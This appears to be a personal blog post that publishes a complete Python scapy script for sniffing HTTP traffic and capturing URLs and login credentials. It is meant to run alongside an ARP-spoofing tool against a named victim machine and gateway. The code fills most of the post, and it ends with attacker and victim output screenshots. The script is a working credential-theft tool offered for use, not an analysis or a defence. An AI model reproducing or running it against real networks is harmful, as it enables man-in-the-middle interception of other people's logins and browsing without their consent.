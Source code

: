 ```yaml
---
title: A Credential/Url sniffer program
date: 2021-06-04 09:45:47 +07:00
categories: python
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: A program to sniff Credentials.
---
```


## This is a python script that sniffs for URL's/Login creds on a specific interface. When coupled with the previous ARPSpoof program this program can be used to remotely sniff traffic between the ARPSpoofed victims.

**In this example we ARP poison/spoof the connection between the target Windows system(192.168.0.117) and the gateway router(192.168.0.1) to remotely sniff any creds/urls visited by the victim.**

* Used the scapy_http module to interact with HTTP layers and filter them as needed.

* Implemented scapy.sniff() function to sniff traffic and filter with BPF's(Berkley Packet Filters).

* Byte object conversion to string using str() and decode() functions for cross-compatibility with python3.



### Code:

```python
#!/usr/bin/env python


import argparse 
import scapy.all as scapy
from scapy.layers import http
# pip install scapy_http

def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-i", "--Interface", dest="interface", help="Host Interface to sniff on")
    options = parser.parse_args()
    if not options.interface:
        # code to handle error
        parser.error("[-] Please specify a valid Host Interface, use --help for info.")
    return options

def sniff(interface):
	# store --> storing packets in memory
	# prn --> callback function
	# filter --> filter according to BPF like TCP/port 80/ICMP
	scapy.sniff(iface=interface , store=False, prn=process_sniffed_packet)


def get_url(packet):
	return packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path

def get_login_info(packet):
	# Filter for raw content
		if packet.haslayer(scapy.Raw):
			load = str(packet[scapy.Raw].load)
			keywords = ["username", "user", "login", "password", "pass", "uname"]
			for keyword in keywords:
				if keyword in load:
					return load

def get_host_info(packet):
		if packet.haslayer(scapy.IP):
			return str(packet[scapy.IP].src)

					

def process_sniffed_packet(packet):
	# Filter based on http layer
	if packet.haslayer(http.HTTPRequest):
		url = get_url(packet)
		print("[+] Captured Urls: " + url.decode())
		login_info = get_login_info(packet)
		if login_info:
			host_info = get_host_info(packet)
			print("\n[+] Packet found from host: " + host_info)
			print("\n[+!] Possible Login Data: " + str(login_info) + "\n------------------------\n")
		

print("""
                                                        
|              o         ,---.     o,---.,---.          
|    ,---.,---..,---.    `---.,---..|__. |__. ,---.,---.
|    |   ||   |||   |        ||   |||    |    |---'|    
`---'`---'`---|``   '    `---'`   '``    `    `---'`    
          `---'                                         
                                                                                                
                                                         """)

options = get_arguments()
sniff(options.interface)
```

### Output:

__Attacker:__

![Image](sniff.png)

__Victim:__

![Image](sniff2.png)
